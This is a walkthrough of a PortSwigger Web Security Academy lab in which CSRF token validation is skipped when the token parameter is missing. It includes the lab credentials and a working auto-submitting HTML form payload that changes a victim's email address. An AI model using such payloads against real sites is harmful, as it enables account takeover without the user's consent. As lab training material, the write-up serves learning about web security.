

# Lab: CSRF where token validation depends on token being present

> Lab Objective: use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
> Note: My Login Credentials is `wiener:peter`

- Firstly, I'll login using my credentials `wiener:peter`
  

- Then I'll change my email to `test@gmail.com`.
  

- When viewing the request in Burp Suite, I've noticed that he uses a CSRF Token in addition to Session Cookies to validate the user identity.
  

- I've tried to remove the CSRF Value and leave the parameter, but the response results in `400 Bad Request`
  

- But when removing the csrf parameter and it's value, the request results in `302 Found`, therefore If I didn't send the csrf token at all he won't check it.
  

- I'll craft a Payload according to the previous point.

- The Payload:

```html
<body>
  <form
    method="POST"
    action="https://0ab2008c04b8d30280610352007d005a.web-security-academy.net/my-account/change-email"
  >
    <input type="email" name="email" value="changed-email@test.com" hidden />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
```

- I'll host the previous payload on a Website I control (Portswigger Exploit Server in this case), and I'll induce the victim to visit the Web Page, and when the victim visits it his email will get changed to `changed-email@test.com`.

- Add The payload to Exploit Server then Deliver Exploit to victim.

- And Finally The Lab is solved.
  

---
